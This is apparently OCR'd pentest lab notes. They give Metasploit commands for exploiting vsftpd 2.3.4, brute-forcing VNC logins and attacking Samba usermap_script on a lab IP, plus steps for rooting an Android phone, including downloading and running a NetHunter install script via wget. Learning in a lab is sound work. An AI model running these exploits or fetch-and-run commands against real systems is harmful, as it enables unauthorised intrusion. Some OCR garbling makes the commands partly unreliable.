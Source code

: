     msf6>search vsftpd
    msf6>use exploit/unix/ftp/vsftpd_234_backdoor
    msf6>set RHOST 172.16.225.128
    msf6>run
metepreter>whoami

## VNC Remote Login exploitation
    $msfconsole
    >search vnc login
    >use auxiliary/scanner/vnc/vnc_login
    >set RHOST 172.16.225.128
    >run

    $vncviewer 172.16.225.128

## Samba server exploitation
    $msfconsole
    >search usermap script
    >exploit/multi/samba/usermap_script
    >set RHOST 172.16.225.128
    >exploit
metepreter>whoami



----------------------------------------

# Rooting Android phone

Requirements/Tools
1. Island apk
2. Magisk
3. Termux
4. Kali Linux
5. Cometin
6. OEM enabled on Android developer options.
7. Fdroid
8. VNC

### Enabling OEM before rooting 
    $adb reboot recovery
    $adb devices
    $adb sideload update.zip

    $termux-setup-storage
    $wget -O install-nethunter-termux https://offsec/zMcrZWr
    $chmod +x install-nethunter-termux
    $./install-nethunter-termux 
    $nethunter -r -> root access 

    $kex passwd -> set VNC password 
    $kex & -> launch VNC server

